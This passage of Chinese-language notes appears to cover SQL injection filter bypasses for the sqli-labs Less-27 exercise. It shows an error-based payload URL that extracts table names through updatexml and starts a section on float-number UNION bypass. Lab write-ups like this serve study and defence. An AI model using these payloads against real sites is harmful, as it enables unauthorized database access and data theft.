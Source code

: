 使用报错

```
http://d16.s.iproute.cn/Less-27/?id=1'||substr((updatexml(1,concat(0x7e,(SelEct(group_concat(table_name))from(information_schema.tables)where(table_schema='security')),0x7e),1)),1,1)='D'||'1
```

![image.png](04.SQL%E6%B3%A8%E5%85%A5%E7%BB%95%E8%BF%87/1675390319606-b66c7870-d5db-4102-acfa-ef164e31db2e.png)



# 浮点数绕过

sql 语句的一个特性，在浮点数后面跟着 union 可以不加空格，并且1.0=1
